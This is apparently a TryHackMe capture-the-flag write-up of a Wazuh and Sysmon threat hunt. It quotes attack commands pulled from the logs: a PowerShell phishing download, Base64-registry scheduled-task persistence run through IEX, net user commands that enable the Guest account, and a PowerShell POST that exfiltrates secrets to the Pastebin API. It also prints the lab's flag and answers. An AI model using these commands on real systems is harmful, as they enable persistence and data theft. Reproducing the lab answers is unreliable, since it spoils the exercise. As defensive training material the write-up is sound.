


# Wazuh + Sysmon Endpoint Investigation: Hunting Real Attacks

## **Objectives**

* Performed a full endpoint threat-hunting investigation using **Wazuh + Sysmon** inside TryHackMe’s isolated VM simulating a real red-team attack chain.
* Identified every attack stage: phishing download via PowerShell, Base64-encoded scheduled task persistence, Guest account activation with privilege escalation, LSASS credential dumping, and data exfiltration to Pastebin.
* Mapped every step to relevant **Sysmon and Windows Event IDs** (1, 3, 10, 4738) and decoded registry payloads directly from Wazuh logs.
* Built a timeline of the complete **MITRE ATT&CK chain** from delivery to exfiltration using only Wazuh’s dashboard and filtering tools.

---

## **Tools Used**
* VM: [TryHackMe Wazuh Lab](https://tryhackme.com/room/mondaymonitor)
* **Wazuh Dashboard** – Investigated live Sysmon and Windows logs using saved query `Monday_Monitor`.
* **Sysmon** – Captured process creation, network connections, process access, and registry operations (Event IDs 1, 3, 10).
* **Windows Event Logs** – Tracked user and group changes (Event ID 4738).
* **CyberChef** – Decoded Base64-encoded registry payloads for persistence analysis.
* **Custom Column Filters** – Exposed parentCommandLine, commandLine, and Message fields for deeper event visibility.

---


# Investigation

## Navigate Through the Endpoint Logs

**Scenario:**

Swiftspend Finance is testing its endpoint security using **Wazuh** and **Sysmon**. My mission is to investigate logs from Apr 29, 2024 (12:00:00 – 20:00:00) to detect suspicious processes, network connections, and potential malware activity.

---

## Steps I Followed

### 1. Start the VM

- Clicked **Start Machine**.
- Waited ~5 minutes for environment setup.

### 2. Access Wazuh Dashboard

- Opened browser at: `https://10-10-184-145.reverse-proxy-eu-west-1.tryhackme.com/`
- Logged in with provided credentials.
    
    
    

### 3. Navigate to Security Events

- Modules → **Security Events**
- Loaded the saved query **Monday_Monitor**.
    
    
    
- Filtered logs for **Apr 29, 2024**, **12:00:00 – 20:00:00**.
    
    
    

---

## Investigating Downloaded Files

**Concept:**

- Wazuh + Sysmon monitor process creation, file downloads, scheduled tasks, and suspicious activity.
- Sysmon Event ID 1 logs **process creation** including command line, parent process, hashes, and user info.

**Action:**

- Filtered logs for HTTP or `rule.id: 255042`.
    
    
    
- Found a suspicious PowerShell download:
    
    ```powershell
    "powershell.exe" & {
        $url = 'http://localhost/PhishingAttachment.xlsm'
        Invoke-WebRequest -Uri $url -OutFile $env:TEMP\SwiftSpend_Financial_Expenses.xlsm
    }
    ```
    
    
    

**Observations:**

- PowerShell downloads a file to Temp folder.
- Original filename: `PhishingAttachment.xlsm`
- Saved on host as: `SwiftSpend_Financial_Expenses.xlsm`

**Key Concept:**

- Downloading files via PowerShell is a common **malware/phishing technique**.

---

## Investigating Scheduled Tasks

**Concept:**

- Sysmon logs **schtasks.exe** creating scheduled tasks.
- Scheduled tasks can achieve **persistence** and are often used in **MITRE ATT&CK T1053.005**.
- Malicious scripts can hide in **registry keys** and be Base64-encoded to avoid detection.

**Action:**

- Filtered events for `schtasks.exe`.
- Checked `parentCommandLine`:
    
    
    
    ```bash
    "cmd.exe" /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f &
    schtasks.exe /Create /F /TN "ATOMIC-T1053.005" /TR "cmd /c start /min "" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))" /sc daily /st 12:34"
    ```
    

**Answers:**

- **Full command run:** same as above.
- **Scheduled task time:** 12:34
- **Decoded Base64 payload:**
    
    Use Cyberchef to decode and got this url.
    
    
    

**Key Concepts:**

- Base64 in registry hides true intent.
- IEX executes decoded PowerShell commands.
- This is an example of **obfuscation and persistence in endpoint attacks**.

---

## Investigating User Account Changes

**Concept:**

- Windows Event ID 4738 tracks user account modifications.
- Malicious actors can activate **Guest accounts** and set passwords for persistence.

**Action:**

- Used filter for **eventID** and set value to 4738 (Event ID that tracks user account mods).
    
    
    
- Here I found two events related to the Guest Account.
    
    But events (for good reason) do not mention a password though. So I removed the filter, and started looking around the timestamp during which these two events triggered, so that I can find other relevant events.
    
    
    
    Directly before the first of these events we see the following event:
    
    
    
    
    
- Here the account is being created
    
    ```jsx
    net1 user guest /active:yes
    ```
    
- Better to put this field as column of the table, it makes it much easier to see what is going on.
    
    
    
- Found commands changing Guest password:
    
    In addition, to events adding the Guest account to the Administrators group (bad idea!)
    
    
    
    There are also two events which change the guest account password using net.exe:
    
    
    
    ```bash
    net.exe user guest I_AM_M0NIT0R1NG
    net1 user guest I_AM_M0NIT0R1NG
    ```
    

**Answer:** `I_AM_M0NIT0R1NG`

---

## Investigating Credential Dumping

**Concept:**

- MITRE ATT&CK T1003.001 describes dumping **LSASS credentials**.
- Red team techniques simulate stealing sensitive info without causing real damage.

**Action:**

- Found relevant Sysmon events 10–11 events after Guest account changes.
    
    
    
- Tool used: `memotech.exe`

---

## Investigating Data Exfiltration

**Concept:**

- Powershell can send data to remote APIs using **Invoke-RestMethod**.
- Exfiltrated content often contains **flags or secrets**.

**Action:**

- Kept scrolling and came across the data extraction part
    
    
    
- Powershell command with flag
    
    ```jsx
    \"powershell.exe\" & {$apiKey = \\\"\"6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0\\\"\" $content = \\\"\"secrets, api keys, passwords, THM{M0N1T0R_1$_1N_3FF3CT}, confidential, private, wall, redeem...\\\"\" $url = \\\"\"[https://pastebin.com/api/api_post.php\\\\\\"\\"](https://pastebin.com/api/api_post.php%5C%5C%5C%5C%5C%5C%22%5C%5C%22) $postData = @{   api_dev_key   = $apiKey   api_option    = \\\"\"paste\\\"\"   api_paste_code = $content } $response = Invoke-RestMethod -Uri $url -Method Post -Body $postData Write-Host \\\"\"Your paste URL: $response\\\"\"}
    ```
    
    Here I can see a REST call getting made, which includes a flag in its content.
    
    **Answer (flag):** `THM{M0N1T0R_1$_1N_3FF3CT}`
    
- Found event sending data to Pastebin API:
    
    ```powershell
    $apiKey = "6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0"
    $content = "secrets, api keys, passwords, THM{M0N1T0R_1$_1N_3FF3CT}, confidential, private, wall, redeem..."
    $url = "https://pastebin.com/api/api_post.php"
    Invoke-RestMethod -Uri $url -Method Post -Body $postData
    ```
    

---


## **Findings**

* **Phishing Delivery:**

  * PowerShell downloaded `PhishingAttachment.xlsm` to `%TEMP%` as `SwiftSpend_Financial_Expenses.xlsm`.
  * Attack vector: malicious macro execution.

* **Persistence Setup:**

  * `schtasks.exe` created a daily task using Base64 registry payload (`HKCU\SOFTWARE\ATOMIC-T1053.005`).
  * Decoded payload pointed to remote PowerShell execution — **T1053.005 (Scheduled Task/Job)**.

* **Privilege Escalation:**

  * Guest account reactivated and added to Administrators group.
  * Password changed to `I_AM_M0NIT0R1NG` using `net.exe` and `net1.exe`.
  * Confirmed via Event ID 4738 and process creation events.

* **Credential Dumping:**

  * `memotech.exe` accessed `lsass.exe` memory (Sysmon Event ID 10).
  * Indicates credential harvesting activity – **T1003.001 (LSASS Memory)**.

* **Data Exfiltration:**

  * PowerShell posted sensitive data to Pastebin API using `Invoke-RestMethod`.
  * Exfiltrated content included flag: `THM{M0N1T0R_1$_1N_3FF3CT}`.

---

## **Lessons Learned**

* Time-filtered Wazuh queries provide a clean, contextual timeline of every attack stage.
* PowerShell downloading `.xlsm` to `%TEMP%` is an immediate phishing IOC—always verify source URLs.
* Registry-based Base64 payloads often hide persistence tasks—decode before dismissing.
* Unauthorized Guest account activation and group modifications are classic privilege escalation signs.
* LSASS access events (ID 10) instantly confirm credential dumping—no need for external tools.
* Wazuh alone can reconstruct entire adversary activity from telemetry—true SOC-level investigation from a browser.

# Socials

**Repository:** https://github.com/RahulCyberX/Endpoint-Security-Monitoring

**Medium Article:** https://medium.com/@rahulcyberx/monday-monitor-endpoint-security-monitoring-thm-2025-32ba08d5b789?source=your_stories_outbox---writer_outbox_published-----------------------------------------

**TryHackMe Profile:** https://tryhackme.com/p/0xRahuL

**Github Profile:** https://github.com/RahulCyberX
